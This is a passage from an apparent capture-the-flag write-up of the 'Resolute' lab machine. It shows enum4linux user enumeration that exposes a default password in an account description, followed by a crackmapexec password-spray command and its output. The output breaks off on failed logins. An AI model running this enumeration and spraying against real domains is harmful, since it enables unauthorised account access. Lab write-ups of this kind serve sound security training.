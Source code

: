    :::text
    perl enum4linux.pl 10.10.10.169
    <SNIP>
    =============================
    |    Users on 10.10.10.169    |
    =============================
    Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 866.
    index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail	Name: (null)	Desc: (null)
    index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
    index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela	Name: (null)	Desc: (null)
    index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette	Name: (null)	Desc: (null)
    index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika	Name: (null)	Desc: (null)
    index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire	Name: (null)	Desc: (null)
    index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude	Name: (null)	Desc: (null)
    index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount	Name: (null)	Desc: A user account managed by the system.
    index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia	Name: (null)	Desc: (null)
    index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred	Name: (null)	Desc: (null)
    index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
    index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo	Name: (null)	Desc: (null)
    index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
    index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus	Name: (null)	Desc: (null)
    index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
    index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie	Name: (null)	Desc: (null)
    index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki	Name: (null)	Desc: (null)
    index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo	Name: (null)	Desc: (null)
    index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per	Name: (null)	Desc: (null)
    index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan	Name: Ryan Bertrand	Desc: (null)
    index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally	Name: (null)	Desc: (null)
    index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon	Name: (null)	Desc: (null)
    index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve	Name: (null)	Desc: (null)
    index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie	Name: (null)	Desc: (null)
    index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita	Name: (null)	Desc: (null)
    index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf	Name: (null)	Desc: (null)
    index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach	Name: (null)	Desc: (null)

The creds doesn't work and doesn't allow to access the SMB share. We put all
users in a file `users.txt` and then we use
[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) to spray the
password against all accounts. The `melanie` account is using the password!

    :::text
    crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
    CME          10.10.10.169:445 RESOLUTE        [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:MEGABANK)
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE
    CME          10.10.10.169:445 RESOLUTE        [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE